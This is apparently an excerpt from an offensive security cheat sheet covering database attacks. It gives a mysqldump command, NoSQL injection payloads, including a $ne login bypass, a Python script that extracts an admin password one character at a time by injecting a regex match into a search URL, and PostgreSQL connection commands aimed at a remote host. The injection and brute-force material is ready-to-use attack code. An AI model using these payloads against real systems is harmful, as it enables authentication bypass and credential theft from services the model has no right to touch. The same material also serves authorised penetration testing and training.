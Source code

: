 ## mysqldump

```c
$ mysqldump --databases <DATABASE> -u<USERNAME> -p<PASSWORD>    // no space between parameter and input!
```

## NoSQL Injection

```c
admin'||''==='
{"username": {"$ne": null}, "password": {"$ne": null} }
```

### Bruteforce Values

```c
import requests
import re
import string

http_proxy  = "http://127.0.0.1:8080"
proxyDict = {
              "http"  : http_proxy,
            }

url = "<RHOST>/?search=admin"

done = False
pos = 0
key = ""
while not done:
  found = False
  for _, c in enumerate(string.digits+string.ascii_lowercase+'-'):
    payload = url + "' %26%26 this.password.match(/^"+key+c+".*$/)%00"
    r = requests.get(payload, proxies=proxyDict)
    if "admin</a>" in r.text:
      found = True
      key += c
      print key
      break
  if not found:
    print "Done."
    break
  pos += 1
```

## PostgreSQL

```c
$ psql
$ psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
$ psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
$ psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
```
